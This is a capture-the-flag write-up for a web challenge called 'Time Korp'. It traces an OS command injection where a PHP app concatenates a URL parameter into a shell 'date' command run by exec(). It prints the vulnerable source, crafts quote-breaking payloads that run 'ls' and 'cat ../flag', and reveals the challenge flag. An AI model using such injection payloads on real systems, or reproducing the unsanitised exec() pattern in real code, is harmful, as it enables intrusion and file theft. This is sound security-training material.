




# Time Korp (Web)

import Callout from '../../../components/Callout.astro';
import Flag from '../../../components/Flag.astro';

> Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

Spawning the docker retrieves a page which shows the time and date. Simple, right? 



If you check the URL you find something interesting;

```bash
http://154.57.164.75:31545/?format=%H:%M:%S
```

It looks like the server is returning the current time format via a query parameter `?format=%H:%M:%S`, this looks like a classic command injection. We'll see why that is.

The challenge provides "Scenario Files" which we can probe to find vulnerabilities that we can exploit to retrieve the flag. 

```bash
➜  timekorp l
total 12K
drwxr-xr-x. 1 rbx86 rbx86  88 Feb 28 20:28 .
drwxr-xr-x. 1 rbx86 rbx86  38 Feb 28 20:33 ..
-rwxr-xr-x. 1 rbx86 rbx86 120 Mar 29  2024 build_docker.sh
drwxr-xr-x. 1 rbx86 rbx86 106 Sep  4  2024 challenge
drwxr-xr-x. 1 rbx86 rbx86  68 Sep  4  2024 config
-rw-r--r--. 1 rbx86 rbx86 883 Sep  4  2024 Dockerfile
-rw-r--r--. 1 rbx86 rbx86  26 Mar 29  2024 flag
```

We're only interested in the `challenge/` directory, which we see contains the following files. 

```bash
➜  timekorp tree challenge
challenge
├── assets
│   └── favicon.png
├── controllers
│   └── TimeController.php
├── index.php
├── models
│   └── TimeModel.php
├── Router.php
├── static
│   └── main.css
└── views
    └── index.php
```

`controllers/TimeController.php` and `models/TimeModel.php` stood out the most to me. 

```php title="controllers/TimeController.php" showLineNumbers {6}
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

The PHP code was fairly simple, even with my little understanding of the language. Line `6` shows the `GET` request being used to set the value of the `$format` variable, with the default being `%H:%M:%S`. Line `7` shows a new object being created with `$format` being passed into the constructor. This alone doesn't help us find what our payload needs to be, but it tells us one thing:

- The code performs no input sanitization making it vulnerable to a command injection. By modifying the query parameter, we can get the system to query and return whatever we'd like.

This was validated when using the payload:

```bash
http://154.57.164.75:31545/?format=wassup%20rbx86
```



We can finally craft our payload. To do this, we'll look into `models/TimeModel.php` to check how it's handling our payload.

```php title="models/TimeModel.php" showLineNumbers {"1. String concatenation operation":6-7} {"2. Vulnerable exec() function allows arbitrary command execution":12-13}
<?php
class TimeModel
{
    public function __construct($format)
    {

        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {

        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

We can see in line `7` that the constructor takes the value `$format` (initialized by value passed in query parameter) as a parameter and performs a string concatenation to form a command which it then stores in `this.command`.

Then in the `getTime()` method it executes `this.command` using the `exec()` functions, which as we know, makes it vulnerable to OS command injection if input sanitization isn't performed.

Firstly, our payload must escape this command sequence. Let's understand how to do this:
 
```bash {7}
➜  tmp php -a
Interactive shell

php > $format = "%H:%M:%S";
php > $command = "date '+" . $format . "' 2>&1";
php > echo $command;
date '+%H:%M:%S' 2>&1
```

As we can see above in order to execute arbitrary command we need to craft a payload such that `$command` becomes:

```bash
date ''; ls -la; # 2>&1
```

Thus, our payload will be :

```bash
'; ls -la; #
```

We can verify this by using the same example above:

```bash {"This now executes date '' followed by ls and comments everything preceding it": 7-8}
➜  tmp php -a
Interactive shell

php > $format = "'; ls; #";
php > $command = "date '+" . $format . "' 2>&1";
php > echo $command;

date ''; ls -la; #' 2>&1
```

I used [https://www.urlencoder.org/](https://www.urlencoder.org/) to encode my payload before passing it through the query parameter in the URL. The URL then becomes:

```bash
http://154.57.164.75:31545/?format=%27%3B%20ls%20-la%3B%20%23
```

It works!!



Now we can traverse to find the flag which should be in `../flag`, making our actual payload

```bash
'; cat ../flag; #
```

Our updated URL becomes:

```bash
http://154.57.164.75:31545/?format=%27%3B%20cat%20..%2Fflag%3B%20%23
```



Hell yeah :D

<Flag value="HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_0038f3b1f5fb515bd2ed7f6ec1237b84}" />